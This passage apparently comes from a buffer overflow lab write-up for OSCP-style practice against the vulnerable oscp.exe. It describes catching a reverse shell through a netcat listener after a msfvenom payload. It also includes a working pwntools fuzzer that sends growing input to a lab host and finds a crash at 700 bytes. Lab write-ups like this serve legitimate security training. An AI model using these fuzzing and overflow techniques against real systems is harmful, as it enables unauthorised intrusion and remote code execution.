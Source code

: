 ```
padding = "\x90" * 16
```

### Exploit

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

## Overflow 2

Repeat the steps outlined in Task 2 but for the OVERFLOW2 command. 

First I created the `fuzzer.py` file to understand where the value that caused a buffer overflow was around, but instead of using sockets as in the example on THM, I used the `pwntools` module.

```python
from pwn import *

ip = "10.10.17.141"
port = 1337
command = "OVERFLOW2 "
timeout = 5

r = remote(host=ip, port=port, ssl=False)
print(r.recv().decode())

i = 1
while True:
    l_value = 100 * i
    try:
        value = "A" * (l_value)
        print(f"[+] Sending: {l_value}")

        input_value = command + value
        r.sendline(input_value.encode())
        res = r.recv(timeout=timeout).decode()
        if len(res) > 0:
            print(res)
        else:
            print(f"[+] No Reply\n[+] Possible Overflow with value: {l_value}")
            break
        i += 1
    except Exception as e:
        print(e)
```

Through the use of the fuzzer I discovered that with a length value equal to 700 the program goes into segmentation fault. So I can start from this value for my exploit
